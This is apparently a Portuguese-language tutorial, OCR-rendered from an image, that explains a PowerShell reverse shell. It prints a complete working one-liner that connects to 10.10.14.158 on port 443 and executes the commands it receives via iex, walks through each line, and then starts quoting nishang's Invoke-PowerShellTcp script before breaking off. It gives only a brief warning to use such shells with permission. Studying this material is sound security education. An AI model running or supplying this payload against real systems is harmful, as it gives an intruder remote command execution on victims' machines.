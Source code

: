 powershellCopy code

`$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443) $stream = $client.GetStream() [byte[]]$bytes = 0..65535 | ForEach-Object { 0 } while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {     $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)     $sendback = (iex $data 2>&1 | Out-String)     $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '     $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)     $stream.Write($sendbyte, 0, $sendbyte.Length)     $stream.Flush() } $client.Close()`

Aqui estão as explicações de cada parte do código:

1. `$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443)`: Cria um objeto `TCPClient` para estabelecer uma conexão TCP com o endereço IP "10.10.14.158" na porta 443.
2. `$stream = $client.GetStream()`: Obtém o fluxo de dados da conexão TCP estabelecida.
3. `[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }`: Cria um array de bytes para armazenar os dados recebidos da conexão.
4. `while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { ... }`: Entra em um loop que lê os dados recebidos da conexão TCP.
5. `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)`: Converte os bytes recebidos em uma string usando a codificação ASCII.
6. `$sendback = (iex $data 2>&1 | Out-String)`: Executa a string de comando recebida usando `iex` (Invoke-Expression), captura a saída e os erros resultantes e os armazena em `$sendback`.
7. `$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '`: Cria uma string contendo a saída do comando executado, seguida de "PS" (indicando PowerShell), o diretório atual e o prompt de comando (">").
8. `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`: Converte a string `$sendback2` em um array de bytes usando a codificação ASCII.
9. `$stream.Write($sendbyte, 0, $sendbyte.Length)`: Escreve os bytes no fluxo de dados da conexão.
10. `$stream.Flush()`: Limpa o buffer do fluxo de dados.
11. `$client.Close()`: Encerra a conexão TCP.

Em resumo, esse comando PowerShell estabelece uma conexão de reverse shell com um servidor remoto, enviando os comandos recebidos para execução no PowerShell do servidor e retornando a saída do comando para o cliente. O cliente pode enviar comandos interativos para o servidor e receber a resposta de volta. Lembre-se de que o uso de reverse shells pode ter implicações de segurança e só deve ser usado em ambientes controlados e com permissão adequada.

O one-liner que acabamos de examinar juntos também pode ser executado na forma de um script PowerShell (`.ps1`). Podemos ver um exemplo disso visualizando o código fonte abaixo. Este código fonte faz parte do projeto [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1):

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
```